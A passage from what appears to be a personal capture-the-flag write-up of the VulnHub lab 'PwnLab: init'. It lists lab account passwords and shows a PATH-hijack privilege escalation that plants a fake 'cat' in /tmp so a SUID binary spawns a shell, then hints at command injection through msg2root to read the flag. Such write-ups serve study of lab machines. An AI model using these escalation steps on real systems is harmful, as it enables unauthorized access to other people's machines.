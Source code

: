 > [!important]
> kent:JWzXuBJJNy +
> mike:~~SIfdsTEn6I~~ -
> kane:iSv5Ym2GRo +


![[20250515035029.png]]

```bash
strings msgmike
```

```PATH
cat /home/mike/msg.txt
```
___
### PATH to MIKE
```bash
echo '/bin/sh' > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
./msgmike
```
![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515040358.png)

```bash
strings msg2root
```
![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515041449.png)
# bash comment & read flag
